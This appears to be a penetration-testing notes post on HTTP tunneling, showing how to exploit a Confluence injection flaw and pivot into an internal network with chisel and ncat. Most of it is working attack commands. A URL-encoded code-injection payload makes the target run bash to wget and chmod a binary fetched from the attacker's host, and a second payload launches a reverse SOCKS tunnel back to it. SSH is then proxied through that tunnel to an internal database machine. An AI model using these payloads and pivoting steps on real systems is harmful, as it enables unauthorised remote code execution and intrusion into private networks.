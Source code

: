 ```yaml
---
layout: post
title: HTTP Tunneling
titledate: 09/24/23
tags: ["infosec", "offsec", "tunnel", "chisel", "ncat"]
---
```


#### chisel

the chisel tool will create a http tunnel that encapsulates an ssh session

chisel needs a client and server connection, so we need to run chisel on our target

    $ sudo cp $(which chisel) .

    $ python -m http.server 80

now we need to grab chisel on the target, and for this attack we leverage the confluence vulnerability to execute a bash wget command to retrieve our chisel binary

    $ curl http://192.168.50.50:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.1.1/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

we start the server on our attacking machine

    $ chisel server --port 8080 --reverse

on our attacking machine we dump the tcp traffic on the interface that chisel will be communicating on

    $ sudo tcpdump -nvvvXi tun0 tcp port 8080

once our target1 has the chisel binary we can execute the client , from a web shell, cmd shell etc

    /tmp/chisel client 192.168.1.1:8080 R:socks > /dev/null 2>&1 & 

we can also start the client using the verified confluence injection payload we used to retrieve the binary, but now lets us execute a command

    $ curl http://192.168.50.50:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.1.1:8080%20R:socks%27%29.start%28%29%22%29%7D/

our chisel server should now have an inbound connection from the client

we can use ncat to pass a proxy command to ssh's proxycommand 

    $ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.50

now we've established an ssh connection to a pg db machine on an internal network via chisel reverse socks proxy tunneled through a reverse http tunnel

### NOTE: may need to try different versions of chisel for compatibility